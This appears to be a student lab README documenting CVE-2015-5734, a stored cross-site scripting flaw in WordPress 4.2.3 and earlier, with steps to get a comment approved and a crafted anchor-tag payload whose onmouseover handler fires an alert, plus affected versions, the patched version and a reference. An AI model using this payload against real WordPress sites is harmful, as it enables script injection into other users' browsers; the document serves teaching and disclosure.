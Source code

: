 # Steps
#### Step 1 - Gain trust from the admin
######	If you have the ability to post skip to step 3
######	Create a comment on a post.

#### Step 2 - Wait
###### Wait for approval from the admin.

#### Step 3 - Inject XSS
######	Comment the payload.
	<a href='/wp-admin/' title="XSS" style="position:absolute;top:0;left:0;width:100%;height:100%;display:block;" onmouseover=alert(2)//' rel="nofollow">Hello World</a>




# The types / classes of vulnerabilities involved and any related CVE identifiers
#### Legacy Theme Preview Cross-Site Scripting (XSS)

#### CVE-2015-5734 



# Affected versions and patches
#### Affected version
###### WordPress <= 4.2.3 

#### Patched in
###### version 4.2.4



# Demo
![alt text](https://github.com/Mikhail-Kreytser/Cybersecurity-Week7/blob/master/XSS/Demo.gif "XSS Demo")

# References
#### https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5734
